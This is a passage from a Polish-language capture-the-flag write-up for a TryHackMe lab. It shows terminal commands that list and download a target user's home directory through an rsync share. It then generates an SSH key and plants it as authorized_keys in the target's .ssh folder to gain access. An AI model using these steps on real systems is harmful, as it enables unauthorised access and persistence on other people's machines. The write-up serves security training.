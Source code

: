 Zastąp "/path/to/folder/" ścieżką do katalogu na serwerze zdalnym, który chcesz pobrać.

Znak "." na końcu oznacza bieżący katalog lokalny jako miejsce docelowe, gdzie zostanie pobrany katalog.

Wpisz hasło, jeśli zostaniesz o to poproszony, aby potwierdzić swoją tożsamość na serwerze zdalnym.

Po wykonaniu powyższych kroków, rsync pobierze katalog z serwera zdalnego do bieżącego katalogu lokalnego.

```                              
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ rsync --list-only rsync://rsync-connect@<IP_atakowanej_masz>/files/sys-internal
Password: 
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
                                                                                 
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ rsync --list-only rsync://rsync-connect@<IP_atakowanej_masz>/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 07:49:29 .
-rw-------             61 2021/02/06 07:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 08:33:19 .bash_history
-rw-r--r--            220 2021/02/01 07:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 07:51:14 .bashrc
-rw-r--r--             26 2021/02/01 07:53:18 .dmrc
-rw-r--r--            807 2021/02/01 07:51:14 .profile
lrwxrwxrwx              9 2021/02/02 09:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 07:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 14:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 07:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 06:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 06:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 04:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 07:53:57 .config
drwx------          4,096 2021/02/01 07:53:19 .dbus
drwx------          4,096 2021/02/01 07:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 07:53:22 .local
drwx------          4,096 2021/02/01 08:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 06:43:14 .ssh
drwx------          4,096 2021/02/02 06:16:16 .thumbnails
drwx------          4,096 2021/02/01 07:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 07:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 08:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 07:53:22 Music
drwxr-xr-x          4,096 2021/02/01 07:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 07:53:22 Public
drwxr-xr-x          4,096 2021/02/01 07:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 07:53:22 Videos

rsync -r rsync://rsync-connect@<IP_atakowanej_masz>/files/ ./rsync
```
Za pomoca polecenia ```ssh-keygen``` po wygenerowaniu kluczy publiczny i prywatny zmieniam nazwę klucza publicznego za pomocą polecenia ```cp id-rsa.pub auhorized_keys```
Nastepnie kopiuję klucz publiczny poleceniem:
```
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ rsync -r authorized_keys rsync://rsync-connect@<IP_atakowanej_masz>/files/sys-internal/.ssh/
```
